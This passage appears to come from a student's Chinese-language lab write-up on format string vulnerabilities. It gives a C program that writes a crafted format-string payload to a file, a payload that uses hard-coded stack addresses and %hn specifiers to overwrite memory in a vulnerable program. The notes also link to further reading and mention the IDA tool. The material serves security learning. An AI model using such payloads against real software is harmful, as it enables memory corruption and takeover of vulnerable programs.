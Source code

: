 ​	![image-20200522164238607](Format_String_Vulnerablity.assets/image-20200522164238607.png)

我们用下面的程序，生成format string.

```c
#include <stdio.h>
#include <stdlib.h>

int main(void){
    char buffer[100]="\x16\xec\xff\xbf@@@@\x14\xec\xff\xbf|%.8x|%.8x|%.8x|%.8x|%.26199x%hn|%.4368x%hn";
    FILE *input = fopen("input","w");
    if(!input){
        printf("cannt open input file");
        exit(0);
    }
    fwrite(buffer,sizeof(char),sizeof(buffer),input);
    return 0;
}
```

用生成的format string 作为输入，便能达到效果。

![image-20200522165152527](Format_String_Vulnerablity.assets/image-20200522165152527.png)

<br>

**如果需要拓展阅读的话**，可以参考：[0x00 printf函数中的漏洞](https://bbs.ichunqiu.com/thread-43624-1-1.html)

我暂时看不懂。

这里面使用了一个工具：IDA，值得注意呦。

<br>
<br>
